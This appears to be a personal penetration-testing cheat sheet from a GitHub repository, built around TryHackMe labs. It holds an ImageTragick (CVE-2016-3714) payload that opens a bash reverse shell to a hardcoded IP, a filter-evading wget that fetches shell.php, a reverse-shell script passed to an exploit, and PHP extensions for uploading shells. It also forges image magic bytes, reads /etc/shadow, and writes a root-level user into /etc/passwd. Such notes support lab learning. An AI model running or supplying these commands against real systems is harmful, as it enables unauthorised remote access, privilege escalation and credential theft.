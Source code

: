 [back](/README.md)

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```


#### Read file:
```python
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
```
```
`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`
```

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```sh
gzip -d file.gz
```
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"
grep -n #numbers
grep -i #do not care abuot regex
grep -c #how many times
grep linux * -r recursive # in all files
точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#' #begins with
'^$' #пустые строки
-e '^(#|$)' #начинается или с # или с $(пустая строка)
grep -e 'colou?r' # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root' # only word root, not asdrootas
\grep #unalias
-A5 #five line after the math
-B5 #before
-C5 #before and after
-e '[0-9]{5,6}/tcp' file.txt #от 5 до 6 цифр от 0 до 9
-E '[0-9]$' #number at the end of line
-E '\s*' # space or tab 
+ # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### [steal admin cookie/sqli](/other/src/marketplace.md) (tryhackme:marketplace)
#### [ohmyweb](./src/omyweb.md)

---